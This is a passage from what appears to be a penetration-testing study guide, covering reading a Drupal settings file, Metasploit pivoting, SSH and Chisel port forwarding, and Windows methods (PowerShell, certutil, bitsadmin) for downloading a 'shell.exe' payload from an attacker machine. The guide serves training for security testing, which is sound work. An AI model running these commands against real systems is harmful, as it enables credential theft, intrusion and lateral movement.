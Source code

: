 **Drupal configuration access:**
```bash
# Accessing Drupal configuration
cat /var/www/html/sites/default/settings.php
```

### 5. Pivoting and Lateral Movement

#### Network Routing with Metasploit

After gaining a meterpreter shell, pivoting allows access to otherwise unreachable networks:

```
# Add a route through the compromised host
run autoroute -s 192.168.101.0/24

# Verify routes
run autoroute -p

# Start a SOCKS proxy for pivoting
use auxiliary/server/socks_proxy
run
```

#### Port Forwarding

**SSH port forwarding:**
```bash
# Local port forwarding
ssh -L 8080:192.168.101.5:80 user@192.168.100.67
```

**Chisel for advanced port forwarding:**
```bash
# Server (attack machine)
./chisel server -p 8000 --reverse

# Client (compromised host)
./chisel client 192.168.100.5:8000 R:3306:127.0.0.1:3306
```

#### Windows File Transfer Techniques

```powershell
# PowerShell file download
Invoke-WebRequest -Uri "http://192.168.100.5/shell.exe" -OutFile "C:\Windows\Temp\shell.exe"

# CertUtil (mentioned in question #34)
certutil.exe -urlcache -split -f "http://192.168.100.5/shell.exe" shell.exe

# BITS transfer
bitsadmin /transfer myJob /download /priority high http://192.168.100.5/shell.exe C:\Windows\Temp\shell.exe
```

### 6. Specialized Tools for Specific Tasks
